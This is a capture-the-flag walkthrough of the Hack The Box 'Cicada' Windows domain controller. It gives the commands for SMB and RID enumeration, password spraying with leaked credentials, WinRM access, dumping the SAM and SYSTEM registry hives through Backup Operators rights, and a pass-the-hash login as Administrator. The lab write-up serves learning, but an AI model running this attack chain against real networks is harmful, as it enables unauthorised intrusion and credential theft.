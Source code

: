 # HTB - Cicada

**IP Address:** `10.10.11.35`  
**OS:** Windows Server 2022  
**Difficulty:** Medium  
**Tags:** SMB, Kerberos, RID Brute Force, WinRM, Privilege Escalation, Backup Operators, Hive Dumping

---

## 1. Port Scanning

### 1.1 Nmap

Initial scan revealed a typical Active Directory environment:

```bash
nmap -p- --open 10.10.11.35
```

Filtered scan on relevant ports:

```bash
nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,63646 10.10.11.35
```

---

## 2. SMB and Domain Enumeration

### 2.1 Identify Host

```bash
netexec smb 10.10.11.35
```

Revealed domain: `cicada.htb`  
Host: `Windows Server 2022 Build 20348`

---

## 3. User Enumeration Attempts

### 3.1 Kerbrute (🛑 Ineffective)

```bash
kerbrute userenum --dc 10.10.11.35 -d cicada.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```

Only found `administrator` and `guest`.

---

## 4. SMB Share Discovery

```bash
smbclient -L 10.10.11.35 -N
netexec smb 10.10.11.35 -u guest -p '' --shares
```

Found share: `HR`

Inspected HR share:

```bash
smbmap -H 10.10.11.35 -u guest -p '' -r HR
```

Discovered:

```text
Notice_from_HR.txt → Cicada$M6Corpb*@Lp#nZp!8
```

---

## 5. User Discovery via RID Brute Force

Used RID brute-force to extract usernames:

```bash
netexec smb 10.10.11.35 -u guest -p '' --rid-brute | grep 'SidTypeUser'
```

Cleaned output with `tr`, `awk`, and `sponge` to create `users.txt`.

Validated users via:

```bash
kerbrute userenum --dc 10.10.11.35 -d cicada.htb users.txt
```

---

## 6. Credential Spraying

Tested the leaked password against all users:

```bash
netexec smb 10.10.11.35 -u users.txt -p credentials.txt
```

✅ Valid for `michael.wrightson`

---

## 7. Michael Wrightson Access

WinRM: ❌ Not available  
SMB Shares:

```bash
netexec smb 10.10.11.35 -u 'michael.wrightson' -p credentials.txt --shares
```

Found: `NETLOGON`, `SYSVOL`

Checked user descriptions:

```bash
netexec smb 10.10.11.35 -u 'michael.wrightson' -p credentials.txt --users
```

Found password in `david.orelious` description:  
**`aRt$Lp#7t*VQ!3`**

---

## 8. David Orelious Access

✅ SMB login successful  
WinRM: ❌  
New share accessible: `DEV`

```bash
smbmap -H 10.10.11.35 -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3' -r DEV
```

Found: `Backup_script.ps1`  
Extracted with `smbclient`

Found credentials:

- User: `emily.oscars`
- Password: `Q!3@Lp#M6b*7t*Vt`

---

## 9. Emily Oscars Access

✅ WinRM access confirmed:

```bash
evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

🏁 **User flag obtained**

---

## 10. Privilege Escalation

Emily is a member of **Backup Operators** and has `SeBackupPrivilege`.

### 10.1 Dump Hive Files

On victim:

```powershell
reg save hklm\sam c:\temp\sam.hive
reg save hklm\system c:\temp\system.hive
```

Downloaded with:

```bash
download sam.hive
download system.hive
```

---

## 11. Extract Administrator Hash

```bash
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```

Used hash with Evil-WinRM:

```bash
evil-winrm -i 10.10.11.35 -u 'Administrator' -H <NTLM_HASH>
```

🏁 **Root flag obtained**

---

# ✅ MACHINE COMPLETE
